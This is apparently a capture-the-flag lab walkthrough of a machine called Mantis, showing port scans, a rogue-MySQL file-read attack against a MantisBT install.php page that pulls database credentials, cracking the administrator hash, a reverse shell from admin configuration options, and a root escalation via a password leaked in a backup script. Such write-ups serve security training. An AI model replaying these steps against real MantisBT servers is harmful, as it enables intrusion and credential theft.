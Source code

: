 # Mantis

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:54 +08
Nmap scan report for 192.168.201.204
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

I did a detailed scan on these ports:

```
$ sudo nmap -p 80,3306 -sC -sV --min-rate 4000 192.168.201.204     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:56 +08
Nmap scan report for 192.168.201.204
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Slick - Bootstrap 4 Template
3306/tcp open  mysql   MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: E!sB/b!zhxE.VGAOJd;9
|_  Auth Plugin Name: mysql_native_password
```

### Web Enumeration

Port 80 hosted a static page:

<figure><img src="../../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` on this website, and it did find a few directories of interest:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.201.204/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.204/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/08 15:57:35 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 316] [--> http://192.168.201.204/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.201.204/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.201.204/fonts/]
/bugtracker           (Status: 301) [Size: 323] [--> http://192.168.201.204/bugtracker/]
```

`/bugtracker` looks interesting. It brought me to a login page stating that the admin directory is a security risk.&#x20;

<figure><img src="../../../.gitbook/assets/image (953).png" alt=""><figcaption></figcaption></figure>

I tried to access the `/admin` panel but it didn't work. I took a look at the Github repository for this software and tried to access the other files within the admin panel, which worked:

{% embed url="https://github.com/mantisbt/mantisbt" %}

<figure><img src="../../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

At the bottom of the page, there are options to Upgrade the SQL database:

<figure><img src="../../../.gitbook/assets/image (951).png" alt=""><figcaption></figcaption></figure>

If we just click on the Install button without filling in any details, we are brought to another page:

<figure><img src="../../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

There's a configuration file mentioned at the bottom of the page, and it also shows that the web page is able to interact with the SQL instance.&#x20;

### Rogue MySQL LFI --> MySQL Creds

I did a lot more reading about `install.php` and the other components related to SQL (because SQL is publicly facing for some reason) of the admin panel and came across this CVE:

{% embed url="https://mantisbt.org/bugs/view.php?id=23173" %}

This involves using a Rogue SQL server to exploit an LFI:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php" %}

We just have to visit `install.php?install=3&hostname=192.168.45.191` to run it, and it works!

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

We can use this to read the `config_inc.php` file mentioned earlier:

```
$ php sql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.201.204:47156 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.201.204:47156:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';
```

This grants us the MySQL creds, which we can use to login:

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

### Bugtracker Creds --> RCE

With access to the database, we can view the password of the administrator of the MantisBT instance.&#x20;

```
MariaDB [bugtracker]> select * from mantis_user_table;
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email             | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost    | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
|  2 | test123       |          | test123@gmail.com | 3a85acb13b850e7b8e2b53331becc726 |       1 |         0 |           25 |           0 |                           0 |                  1 | TORSv6oU4EXOyA4cqXXgBod5RJ3vY445ArdZ9uS795NfqWdsKib7OMQGfiMOUAbp | 1688803375 |   1688803375 |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
```

This hash can be cracked on CrackStation:

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

Now, there are RCE exploits for this, but the one from `searchsploit` also abuses another exploit to do with password resetting for the administrator user.

First of all, that doesn't seem to work for this machine, and secondly, we already have the administrator password. In this case, I manually exploited the machine while using the PoC as a guideline.&#x20;

We can first login as the administrator:

<figure><img src="../../../.gitbook/assets/image (3846).png" alt=""><figcaption></figcaption></figure>

Then, head to `/bugtracker/adm_config_report.php` and create the following Configuration Options:

<figure><img src="../../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

Then, just visit `/bugtracker/workflow_graph_img.php`, and we will receive a reverse shell:

<figure><img src="../../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy Mantis Creds --> Root

We can grab the user flag from the user `mantis`. Afterwards, we can find some interesting files within their home directory:

```
www-data@mantis:/home/mantis/db_backups$ ls -la
total 52
drwxr-xr-x 2 mantis mantis  4096 Jan 30 16:15 .
drwxr-xr-x 3 mantis mantis  4096 May 17  2022 ..
-rw-rw-r-- 1 mantis mantis 37130 Jul  8 08:44 1652766150.sql
-rwx------ 1 mantis mantis   104 May 17  2022 backup.sh
```

The file was recently edited, so I ran `pspy64` on the machine to see what `backup.sh` was doing.

```
2023/07/08 08:46:01 CMD: UID=1000 PID=5746   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5745   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5747   | mysqldump -u bugtracker -pBugTracker007 bugtracker
```

There was a password present. Using that, we can `su` to `mantis`, who can run `sudo` on everything without a password.

<figure><img src="../../../.gitbook/assets/image (1760).png" alt=""><figcaption></figcaption></figure>

Rooted!
